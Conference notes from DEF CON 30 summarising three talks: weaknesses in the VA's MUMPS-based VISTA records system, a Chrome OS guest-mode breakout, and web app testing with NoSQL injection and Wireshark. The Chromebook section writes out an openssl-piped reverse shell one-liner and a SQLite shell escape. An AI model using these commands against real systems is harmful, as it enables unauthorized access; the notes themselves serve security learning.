 # DEF CON 30

author:: Nathan Acks  
date:: 2022-08-13

DEF CON talks in the morning, and another workshop this afternoon.

REFERENCES:

* [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

## How to Get MUMPS Thirty Years Later

* SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.
* MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile - it's also used by other hospitals, police departments, banks, and even the ESA.
* MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there's no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).
* MUMPS can be treated as both a scripted and compiled language.
* More than 50% of all electronic medical records pass through some sort of MUMPS application.
* VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans' Administration.
* In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it's written in a slightly more modern language, DELPHI `O_o`).
* CPRS/VISTA are *extremely* chatty on the network.
* VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn't think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!
* Zach's had trouble getting the VA to talk to them, so disclosure's still ongoing here.
* VISTA is *really* well-loved by the doctors who use it.

### References

* [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA'd Code)](assets/how-to-get-mumps-thirty-years-later-or-hacking-the-government-via-foiad-code-zachary-minneker.pptx)
* [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

## Chromebook Breakout

* This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.
* This vulnerability was actually patched two years ago by Google...
* This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.
* The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It's much faster than Hak5's tool.
* Interesting redirect trick - use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.
* You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`
* In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).
* SQLite shell escape: `.shell bash`
* Oof... There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.
* Chrome OS has a restricted `finger` command called `pinky` that's used internally.
* If you can get to `dbus` on a Chromebook, you can access *some* (but not all!) Dev Mode tools (like `ping`).

(I wasn't able to catch the end of this presentation, however, as I needed to head out to my last workshop...)

### References

* [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](assets/chromebook-breakout-escaping-jail-with-your-friends-using-a-pico-ducky-jimi-allee.pdf)
* [Pico Ducky](https://github.com/dbisu/pico-ducky)

## Securing Web Apps

* TIL: There is such a thing as NoSQLi, and it's *way* easier than SQLi - just drop objects containing search operators into the NoSQL queries instead of actual data!
* You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.
* If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using "Preferences > RSA Keys".
* Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select "Follow > TCP Stream, (3) change "Show data as" to "Raw", and (4) save it off using "Save As".

### References

* [Securing Web Apps](https://forum.defcon.org/node/241772)
* [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)
